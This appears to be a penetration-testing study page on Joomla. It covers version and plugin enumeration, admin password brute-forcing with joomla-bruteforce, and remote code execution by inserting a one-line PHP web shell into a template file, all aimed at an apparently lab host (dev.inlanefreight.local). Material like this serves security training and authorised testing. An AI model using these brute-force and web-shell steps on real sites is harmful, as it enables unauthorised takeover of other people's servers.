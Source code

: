```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Joomla

## General Information

Joomla is commonly used with `PHP` and `MySQL` (similar to [WordPress](wordpress.md)) and can be identified by its browser's favicon (Figure 1).

<figure><img src="../../../../.gitbook/assets/joomla_favicon.png" alt=""><figcaption><p>Figure 1: Joomla's favicon.</p></figcaption></figure>

<table><thead><tr><th width="248" align="right">User</th><th>Description</th></tr></thead><tbody><tr><td align="right"><code>Super Users</code>/<code>Administrator</code></td><td>Access to administrative features (adding, deleting users and posts, editing source code)</td></tr><tr><td align="right"><code>Administrator</code></td><td>Admin functions except global options</td></tr><tr><td align="right"><code>Manager</code></td><td>Content creation and backend system info</td></tr></tbody></table>

## Enumeration

### Manual <a href="#manually_enumerating_version" id="manually_enumerating_version"></a>

{% tabs %}
{% tab title="CMS" %}
```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```
{% endtab %}

{% tab title="Version" %}
```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```
{% endtab %}
{% endtabs %}

In certain installs, we may be able to discover the version from JavaScript files:

{% tabs %}
{% tab title="js" %}
{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/media/system/js
```
{% endcode %}
{% endtab %}

{% tab title="joomla.xml" %}
{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```
{% endcode %}
{% endtab %}

{% tab title="cache.xml (plugins)" %}
{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/plugins/system/cache/cache.xml | xmllint --format -
```
{% endcode %}
{% endtab %}

{% tab title="language.xml" %}
{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/language/en-GB/en-GB.xml | xmllint --format -
```
{% endcode %}
{% endtab %}
{% endtabs %}

Fuzzing can be used for further directory, plugin, and theme enumeration ([joomla.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/joomla.txt)).

{% code overflow="wrap" %}
```bash
# Fuzzing for plugins
$ ffuf -u http://dev.inlanefreight.local/FUZZ -w usr/share/wordlists/joomla/joomla.txt -c -ac
```
{% endcode %}

> [Metasploit's joomla\_plugins](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla\_plugins/)

### Automated

#### droopescan <a href="#droopescan" id="droopescan"></a>

[droopescan](https://github.com/SamJoan/droopescan) is a plugin-based scanner designed mostly for SilverStripe, WordPress, and Drupal, but it has some functionality for Joomla and Moodle as well.

{% code overflow="wrap" %}
```bash
droopescan scan joomla --url http://dev.inlanefreight.local/
```
{% endcode %}

## Attacks <a href="#attacking_joomla" id="attacking_joomla"></a>

### joomla-bruteforce <a href="#joomla-bruteforce" id="joomla-bruteforce"></a>

> _Joomla 3.2 stable release bought 2FA as part of the core install which adds another challenge to brute-forcing an account. But it isn't enabled by default._

The default administrator account is `admin` and the password is set at install time. We can use [joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce) to brute force for credentials:

{% code overflow="wrap" %}
```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```
{% endcode %}

> [joombrute](https://github.com/0rbz/JoomBrute) | [Metasploit's joomla\_bruteforce\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla\_bruteforce\_login/) | [nmap's http-joomla-brute](https://nmap.org/nsedoc/scripts/http-joomla-brute.html) | [nmap's http-form-brute](https://nmap.org/nsedoc/scripts/http-form-brute.html)

### RCE <a href="#code_execution" id="code_execution"></a>

#### **Web Shell**

1. Log in with the obtained credentials at `/administrator`.
2. Navigate to `Templates` and choose one.
3. Click on a page, such as `error.php`, to pull up the source code.
4. Add a PHP webshell, such as `system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);`.
5. Click `Save & Close`.
6. Connect to the webshell for code execution.

<figure><img src="../../../../.gitbook/assets/joomla_rce.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```
{% endcode %}

## Known Vulnerabilities <a href="#known_vulnerabilities_examples" id="known_vulnerabilities_examples"></a>

There is a [live vunlerable extensions list.](https://extensions.joomla.org/vulnerable-extensions/vulnerable/)
